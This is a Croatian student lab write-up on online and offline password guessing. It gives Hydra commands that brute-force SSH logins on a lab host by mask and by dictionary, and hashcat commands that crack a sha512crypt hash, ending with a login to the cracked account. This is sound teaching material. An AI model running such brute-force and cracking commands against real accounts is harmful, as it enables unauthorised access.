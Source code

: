 # Lab. vježbe 5 - Online and Offline Password Guessing

# Uvod

Cilj ove vježbe bilo je demonstrirati načine provedbe online i offline password napada, usporediti ih i procijeniti vrijeme trajanja napada. 

# Postavljanje

## Online guessing attack

Kako bismo mogli obaviti zadatke današnje vježbe, prethodno je bilo potrebno instalirati nekoliko servisa: nmap (”Network Mapper”, open source alat za istraživanje mreže i sigurnosni auditing), Hydra i Hashcat (probijači šifri brute-force napadima).

```bash
sudo apt-get update
sudo apt-get install nmap

# Test it
nmap
```

Nakon provjere da možemo pristupiti serveru, pokušamo se spojiti na vlastiti Docker container:

```bash
ssh tomic_ivan@10.0.15.14
```

Zatim, poznavajući format lozinke (samo mala slova, duljine 4 - 6 karaktera), procjenjujemo pomoću *hydre* vrijeme izvršavanja naredbe:

```bash
hydra -l tomic_ivan -x 4:6:a 10.0.15.14 -V -t 1 ssh
```

Budući da je potrebno vrijeme predugo, koristit ćemo *dictionary,* također dostupan na serveru i zatim pokušati ponovno:

```bash
hydra -l tomic_ivan -P dictionary/g5/dictionary_online.txt 10.0.15.1 -V -t 4 ssh
```

Vrlo brzo (relativno na prethodni pokušaj, i ovisno o malo sreće) dobit ćemo traženu lozinku. 

## Offline guessing attack

Koristeći *hashcat* i sačuvanu šifru iz prethodnog zadatka (spremljenu u datoteku), a znajući da je lozinka sastavljena samo od malih slova i duljine točno 6 karaktera, upisujemo sljedeću naredbu:

```bash
hashcat --force -m 1800 -a 3 hash.txt ?l?l?l?l?l?l --status --status-timer 10
```

Kako bismo mogli ubrzati napad, ponovno ćemo koristiti dictionary dostupan na serveru, ovaj put onaj za offline napad, čime ćemo višestruko ubrzati proces.

```bash
hashcat --force -m 1800 -a 0 hash.txt dictionary/g1/dictionary_offline.txt --status --status-timer 10
```

Konačno, provjeravamo valjanost dobivene lozinke prijavom u odabrani račun koji smo željeli probiti preko ssh konekcije:

```bash
ssh jean_doe@10.0.15.14
```